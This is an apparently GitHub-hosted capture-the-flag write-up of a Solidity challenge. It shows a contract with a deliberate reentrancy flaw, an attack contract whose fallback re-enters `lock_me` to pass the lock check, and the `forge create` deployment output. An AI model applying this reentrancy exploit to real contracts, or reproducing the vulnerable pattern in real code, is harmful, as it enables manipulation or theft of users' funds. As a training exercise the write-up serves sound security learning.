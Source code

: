 # Task

1) The goal of this challenge is to be able to add your address to the array of winners.
2) Make the getAllwiners function incude your name in the array of winners.

# Contract Address
   
0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249

# Contract

```sol
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.13;

contract Challenge {
    address owner;
    address[] public winners;
    mapping(address => bool) public HasInteracted;
    mapping(address => string) public Names;
    bool lock;
    bool isPause;

    constructor() {
        owner = msg.sender;
    }

    function exploit_me(string memory _name) public {
        require(!isPause);
        lock = false;

        msg.sender.call("");

        require(lock);
        require(
            HasInteracted[msg.sender] == false,
            "This address has interacted before"
        );

        HasInteracted[msg.sender] = true;
        winners.push(tx.origin);
        string memory name_ = Names[tx.origin];
        require(
            keccak256(abi.encode(name_)) == keccak256(abi.encode("")),
            "Not a unique winner"
        );
        Names[tx.origin] = _name;
    }

    function lock_me() public {
        lock = true;
    }

    function pause(bool _status) external {
        require(msg.sender == owner);
        isPause = _status;
    }

    function getAllwiners() external view returns (string[] memory _names) {
        _names = new string[](winners.length);
        for (uint i; i < winners.length; i++) {
            _names[i] = Names[winners[i]];
        }
    }
}
```
### Key Observations

1. **Pause and Lock Mechanisms**: The function `exploit_me` requires `isPause` to be `false`. Additionally, the `lock` variable is set to `false` at the beginning of the function, which must be changed to `true` for the function to proceed, achieved through calling `lock_me`.
    
2. **Reentrancy Vulnerability**: `msg.sender.call("")` is an external call that allows reentrancy. In this case, you could call `lock_me` within a fallback function to set `lock` to `true`, enabling the rest of the function's execution.
    
3. **Unique Winner Condition**: The function ensures that only unique addresses are added as winners by checking if the name is empty in the `Names` mapping. This prevents duplicate entries.

Since we've identified the vulnerability, lets cook our attack contract

# Attack Contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;

import "../src/winner.sol";

contract attackWinner {
    bool public toggle;
    Challenge public attack;

    constructor(address _targetaddr) {
        attack = Challenge(_targetaddr);
    }

    function bankai(string memory _name) external {
        attack.exploit_me(_name);
    }

    fallback() external payable {
        if (!toggle) {
            toggle = true;
            attack.lock_me();
        }
    }


}
```
The `attackWinner` contract exploits a reentrancy vulnerability in the `Challenge` contract by using a fallback function. Here’s a concise breakdown:

1. **`attackWinner` Constructor**: Initializes the contract with the address of the target `Challenge` contract.
    
2. **`bankai` Function**: Calls `exploit_me` on `Challenge`, passing a name to start the exploit.
    
3. **Fallback Function**: Triggered during reentrancy, it toggles `lock` in the `Challenge` contract by calling `lock_me`, bypassing a security check in `exploit_me`.
    

In summary, `attackWinner` uses reentrancy to manipulate `lock` in `Challenge`, allowing it to add itself to the winners list in `Challenge`.

Lets deploy the attack contract using foundry forge

```
┌──(bl4ck4non💀bl4ck4non-sec)-[~/Documents/web3/foundry/learninggg_foundryyyy]
└─$ forge create --private-key $PRIVATE_KEY src/attackWinner.sol:attackWinner --constructor-args "0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249" 
[⠊] Compiling...
No files changed, compilation skipped
Deployer: 0x296f076DB25846579300E2F89aCBC20bcd96fd3c
Deployed to: 0x1BfEF0b68F985a26aDB235afA2Ab86514f6DeDC8
Transaction hash: 0x650f0540f8ab4636da94695032be758ae909ca136cad42ec4d55b0472cc9ebac
```

![image](https://github.com/user-attachments/assets/0077e574-ab0a-423e-aa56-60cbe4ae24b4)

Now, lets call the `getAllwiners()` function

![image](https://github.com/user-attachments/assets/65a0b6cb-b295-414c-8a1a-f5b9527287ef)

As you can see from the above screenshot my name `:xD` is included in the array of winners

This challenge has been successfully completed

---------------------------

Till Next Time :xD






















